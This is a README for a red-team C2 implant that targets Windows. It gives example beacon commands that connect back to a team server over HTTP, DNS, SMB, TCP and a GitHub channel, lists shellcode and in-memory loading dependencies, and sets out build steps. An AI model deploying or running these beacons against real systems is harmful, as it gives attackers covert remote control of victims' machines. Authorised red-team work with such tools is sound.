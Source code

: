 # Exploration C2 Implant

## What it is

Exploration is a rudimentary redteam Command and Control framework.  
This repository contain the Beacon in C++ to target windows.  
The TeamServer and Client can be found in [C2TeamServer](https://github.com/maxDcb/C2TeamServer).  

This project contains multiple beacon communicating with the TeamServer thought different means, here is some example:

```
# HTTP/HTTPS
BeaconHttp.exe IP_TEAMSERVER PORT_LISTENER http/https
BeaconHttp.exe 10.10.10.10 8443 https
BeaconHttp.exe 10.10.10.10 8080 http

# Github
BeaconGithub.exe user/project TOKEN
BeaconGithub.exe maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# Dns
BeaconDns.exe DNS_SERVER DOM_TEAMSERVER
BeaconDns.exe 8.8.8.8 bac.superdomain.com

# Smb
BeaconSmb.exe PIPE_NAME
BeaconSmb.exe pipename2

# Tcp
BeaconTcp.exe IP_LISTENER PORT_LISTENER
BeaconTcp.exe 127.0.0.1 4444
```

## Build 

### Sumbodule & External Projects:  

* [Donut](https://github.com/TheWover/donut): Creat shellcode from PE files.  
* [CoffLoader](https://github.com/trustedsec/COFFLoader): Run object files from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Load DLL at runtime.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Powershell for unmanager code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): base64.
* [json](https://github.com/nlohmann/json): json parser.

### Build the Windows Beacons and Modules

* https://chocolatey.org/install
* choco install cmake --pre 

git submodule update --init   
mkdir buildWindows  
cd buildWindows 


#### Windows x64

with "x64 Native Tools Command Prompt for VS":  

```
# With tests and logs  
cmake  -G "Visual Studio 17 2022" -DWITH_TESTS=ON ..   
# Without tests and logs  
cmake  -G "Visual Studio 17 2022" ..   
msbuild .\C2Implant.sln /property:Configuration=Release -m  
```

or  
compile the generated C2.sln in release with Visual studio (config Runtime Library Multi-threaded (/MT) & Release)   


#### Windows x86

```
cmake  -G "Visual Studio 17 2022" -A "Win32" ..   
msbuild .\C2Implant.sln /property:Configuration=Release /p:Platform=Win32 -m  
```

#### Production

Beacons are in: "Release\Beacons"  
Modules DLL in: "Release\Modules"   




